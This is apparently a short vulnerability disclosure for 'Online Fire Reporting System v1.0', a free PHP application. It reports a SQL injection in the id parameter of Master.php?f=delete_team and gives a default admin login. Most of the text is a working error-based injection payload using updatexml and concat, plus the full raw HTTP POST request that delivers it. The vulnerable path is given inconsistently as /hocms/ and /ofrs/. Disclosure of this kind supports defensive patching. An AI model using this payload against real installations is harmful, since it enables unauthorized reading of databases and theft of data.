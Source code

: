 # Online Fire Reporting System v1.0  has SQL injection vulnerability

Login account: admin/admin123

vendor : https://www.sourcecodester.com/php/15346/online-fire-reporting-system-phpoop-free-source-code.html

Vulnerability file: /hocms/classes/Master.php?f=delete_team

![image-20220522140932086](https://s2.loli.net/2022/05/22/PvdoHJIiK3z2sVS.png)

Vulnerability location: /hocms/classes/Master.php?f=delete_team,id

[+]Payload: id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ //id is Injection point

```
POST /ofrs/classes/Master.php?f=delete_team HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: http://localhost
Connection: close
Referer: http://localhost/ofrs/classes/Master.php?f=delete_team
Cookie: UM_distinctid=17edc5ecd369-032851db15155a-4c3e237c-144000-17edc5ecd374b2; CNZZDATA585346=cnzz_eid%3D1638517557-1644367242-%26ntime%3D1644367242; PHPSESSID=0nngc9rh9jt0i53ha9ueig8r9c
Upgrade-Insecure-Requests: 1

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image-20220522124909156](https://s2.loli.net/2022/05/22/rwIaBFNYTug4keG.png)



![image-20220522132315454](https://s2.loli.net/2022/05/22/zXb5D7axf1SQhWC.png)

